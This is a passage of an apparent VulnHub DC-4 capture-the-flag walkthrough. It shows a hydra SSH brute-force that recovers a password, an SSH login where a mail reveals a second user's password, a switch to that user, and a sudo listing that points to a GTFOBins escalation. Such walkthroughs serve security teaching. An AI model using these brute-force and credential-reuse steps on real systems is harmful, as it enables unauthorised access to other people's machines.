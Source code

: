 ```
$ hydra -l jim -P old-passwords.bak 192.168.2.104 ssh
[22][ssh] host: 192.168.2.104   login: jim   password: jibril04
```

`jim`'s `SSH` password is `jibril04`. Now with this info, we can login to `SSH` as `jim`.

### SSH
After logging into `SSH` as `jim`, we are informed that we have a mail. Reading it shows us that it is from `charles` 
and that he has sent us his password; `^xHhA&hvim0y`.

```
$ ssh jim@192.168.2.104
jim@192.168.2.104's password:

You have mail.

jim@dc-4:~$ echo p | mail
Mail version 8.1.2 01/15/2001.  Type ? for help.
"/var/mail/jim": 1 message 1 unread
>U  1 charles@dc-4       Sat Apr 06 21:15   27/715   Holidays
Message 1:
From charles@dc-4 Sat Apr 06 21:15:46 2019
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is: ^xHhA&hvim0y

See ya,
Charles

Saved 1 message in /home/jim/mbox
```

With `charles`'s password in our hands, we can login as `charles`. After logging in as `charles`, we'll run `sudo -l`; 
which will display the commands `charles` can run.

```
jim@dc-4:~$ su charles
Password:

charles@dc-4:/home/jim$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee
```


[DCAU]:                 https://twitter.com/DCAU7
[Login]:                /images/2019-09-13-vulnhub-dc_4/Login.png
[Admin Panel - 1]:      /images/2019-09-13-vulnhub-dc_4/Admin%20Panel%20-%201.png
[Admin Panel - 2]:      /images/2019-09-13-vulnhub-dc_4/Admin%20Panel%20-%202.png
[Admin Panel - 3]:      /images/2019-09-13-vulnhub-dc_4/Admin%20Panel%20-%203.png
[Burp Suite - 1]:       /images/2019-09-13-vulnhub-dc_4/Burp%20Suite%20-%201.png
[Burp Suite - 2]:       /images/2019-09-13-vulnhub-dc_4/Burp%20Suite%20-%202.png
[Burp Suite - 3]:       /images/2019-09-13-vulnhub-dc_4/Burp%20Suite%20-%203.png
[GTFOBin]:              https://gtfobins.github.io/gtfobins/tee/#sudo